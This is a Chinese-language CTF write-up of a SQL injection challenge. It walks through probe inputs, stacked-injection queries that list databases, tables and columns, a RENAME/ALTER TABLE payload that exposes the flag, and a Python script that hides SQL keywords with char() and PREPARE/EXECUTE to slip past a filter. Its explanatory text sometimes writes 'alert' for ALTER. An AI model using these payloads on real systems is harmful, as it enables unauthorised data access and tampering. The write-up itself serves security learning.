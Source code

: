 

sql注入拿到题目都先尝试各种操作，观察有什么字段被过滤，快速的判断可以使用什么注入方式。

常见的尝试字段有：

```python
1'
1'or'1'='1
1'||'1'='1
1'order by 2--+  //采用二分查找法
1'union select null--+
1'sleep(3)--+
```

1.1 1

![](images/A07C8B31C29A4BCF84A226556BB6DBB6clipboard.png)

1.2 1'

![](images/8B54CEDB94AC4869B59DC282039C4294clipboard.png)

1.3 1'union select null--+

![](images/6C084402800441A9A94E0DE042589391clipboard.png)

过滤了select和.

这种强力过滤，无法进行跨表查询，此时考虑堆叠注入



1.4 1';show databases;#

查询出了数据库名

![](images/872F5B32B7CE47EE81FB508B11665EB5clipboard.png)



1.5 1';show tables;#

![](images/2DB1AE9711544365888F76E9CACE42E1clipboard.png)



1.6 查看表名为数字的的表含有什么字段

1';show columns from 1919810931114514;#

222';show columns from words;#



1.7确定words表为默认查询表，1919810931114514表中含有flag字段。过滤中没有过滤rename和alert.

此时可以采取思路：

先更改words表为words1，再更改1919810931114514表，表名为words。再将1919810931114514表的flag字段改为id。此时直接网页查询即可出现flag。



1.8采用一个大佬的payload:

```python
/?inject=1';RENAME TABLE `words` TO `words1`;
RENAME TABLE `1919810931114514` TO `words`;
ALTER TABLE `words` CHANGE `flag` `id` VARCHAR(100) CHARACTER SET utf8 COLLATE utf8_general_ci NOT NULL;
show columns from words;#
```



首先了解一下rename和alter



1.8.1rename 用于修改表名，

```python
命令格式：rename 原表名 to 新表名；
```

列如更改：myclass的表名为youclass

```python
rename myclass to youclass;
```



1.8.2 alert用于修改字段，还可对字段进行删除，增加操作。

```python
命令格式：alert TABLE 'tableName' CHANGE 'flag' 'id' VARCHAR(100)
```



1.9payload之后表名和字段就已经更改了

![](images/4E05DB59700F45A39D61A3CA200DEE3Bclipboard.png)



1.10 提交 1‘or'1,查询所有字段内容即可查出答案

![](images/096DC3BF9C674FBE82EF1074527E8D5Cclipboard.png)



2.另外的思路：

chr没有过滤。

也可以采用常规思路，将所有注入的字段转换为ascii

附个大佬们的exp

https://skysec.top/2019/05/25/2019-%E5%BC%BA%E7%BD%91%E6%9D%AFonline-Web-Writeup/#%E9%9A%8F%E4%BE%BF%E6%B3%A8

```python
payload = "0';set @s=concat(%s);PREPARE a FROM @s;EXECUTE a;"
exp = 'select group_concat(TABLE_NAME) from information_schema.TABLES where TABLE_SCHEMA=database()'
# exp = "select group_concat(COLUMN_NAME) from information_schema.COLUMNS where TABLE_NAME='1919810931114514'"
# exp = "select flag from `1919810931114514`"
res = ''
for i in exp:
	res += "char(%s),"%(ord(i))
my_payload = payload%(res[:-1])
print my_payload
```



